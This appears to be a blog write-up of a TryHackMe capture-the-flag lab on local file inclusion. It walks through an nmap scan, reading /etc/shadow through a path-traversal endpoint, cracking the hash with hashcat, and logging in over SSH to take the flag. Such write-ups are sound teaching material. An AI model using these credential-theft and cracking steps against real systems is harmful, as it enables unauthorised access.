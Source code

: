 ```yaml
---
title: "Advent of Cyber Day 15 LFI"
author: Ludovic COULON
date: 2020-05-08
hero: ./images/hero.png
excerpt: "Advent of Cyber Day 15 LFI"
secret: true
---
```


[TryHackMe | Advent of Cyber](https://tryhackme.com/room/25daysofchristmas)

Elf Charlie likes
to make notes and store them on his server. Are you able to take
advantage of this functionality and crack his password?

Read the supporting materials [here](https://blog.tryhackme.com/lfi/).

### Setup

```bash
kali@kali:~$ nmap -A -vv 10.10.45.154
```

```bash
22/tcp open ssh syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 27:97:56:c6:7d:87:00:2d:a3:9c:90:60:9c:17:ae:8d (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCpcxSjvRT07NjHQOXap9xTO5mWnscMVSvlwVNNn3FT9phbKzzsD3ZXnIYcUHTIak8wKlGnSBmgjlVCgbzebvZDprNrjFDzQZZ+GX2ZJ+GtsPTZIbf3ynYVPfeLBdfuYYnkwf4U2o4em4CRSGzd+MUuLGNYMcKOC9h0g7kU4NybDVwgT6W9KDNeBqzd1oOnSj26hvYTO2N+6vIfwyIFrzASBp/1Sjy830vQdobpzL9r4Cb7sG8cBx1qw5iy6ImZXrRFt33+hNFCcMDr0XUMcw+6xvoEfWDAZoEqCRUaRKtDEcGnENW3NPG/YMhqXNoYq6qLzLIUnwzj3n2wEV/JCULj
|   256 3b:4c:29:10:da:0b:17:6c:ba:de:d0:66:66:20:c5:df (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGzgpJOUVURY/Wfz66y/OR17GgMyN05IcMVmVO2wE560O/KwqqX0qmlIZ60fjqpTd8dXXD2oYY4mUju4kh1hYTk=
|   256 15:70:d4:d5:aa:b6:4f:98:7f:2d:90:d8:b7:74:88:a6 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB5uDVGTfyLrVZrQzYS+YZJBtTBRFNLwueR4k+/DYdjp

80/tcp open http syn-ack Node.js (Express middleware)
|_http-favicon: Unknown favicon MD5: DBC69DB56435575CDC5CF45C96045958
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Public Notes
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### #1 What is Charlie going to book a holiday to?

![https://imgur.com/chYu9Xf.png](https://imgur.com/chYu9Xf.png)

```bash
Hawaii
```

### #2 Read /etc/shadow and crack Charlies password.

If we check the source code of the webpage

```bash
<script>
  function getNote(note, id) {
     const url = '/get-file/' + note.replace(/\//g, '%2f')
      $.getJSON(url,  function(data) {
	 document.querySelector(id).innerHTML = data.info.replace(/(?:\r\n|\r|\n)/g, '<br>');
        })
      }
      // getNote('server.js', '#note-1')
      getNote('views/notes/note1.txt', '#note-1')
      getNote('views/notes/note2.txt', '#note-2')
      getNote('views/notes/note3.txt', '#note-3')
  </script>
```

Now let's fire up burp suite and make some LFI :D

![https://imgur.com/iv4ifNY.png](https://imgur.com/iv4ifNY.png)

![https://imgur.com/Ah1MO52.png](https://imgur.com/Ah1MO52.png)

Now that we have charlie's password hash let's crack it !

```bash
# Hash to decode
$6$oHymLspP$wTqsTmpPkz.u/CQDbheQjwwjyYoVN2rOm6CDu0KDeq8mN4pqzuna7OX.LPdDPCkPj7O9TB0rvWfCzpEkGOyhL.
```

```bash
sudo hashcat -m 1800 -a 0 --force -o crack.txt hash.txt /usr/share/wordlists/rockyou.txt
```

```bash
kali@kali:~$ sudo cat crack.txt
"password1"
```

### #3 What is flag1.txt?

Let's access the machine now with charlie's password

```bash
kali@kali:~$ ssh charlie@10.10.45.154

The authenticity of host 10.10.45.154 (10.10.45.154) cant be established.
ECDSA key fingerprint is SHA256:FTprTqjO/Yb1cVxlvn/P9VvlOeZMFbs4eQwOOTUqhg4.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.45.154' (ECDSA) to the list of known hosts.

charlie@10.10.45.154 password: "password1"
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-1092-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

65 packages can be updated.
32 updates are security updates.

Last login: Fri Dec 13 21:44:29 2019 from 10.8.11.98

charlie@ip-10-10-45-154:~$
```

```bash
charlie@ip-10-10-45-154:~$ ls
flag1.txt
charlie@ip-10-10-45-154:~$ cat flag1.txt
'THM{4ea2adf842713ad3ce0c1f05ef12256d}'
```
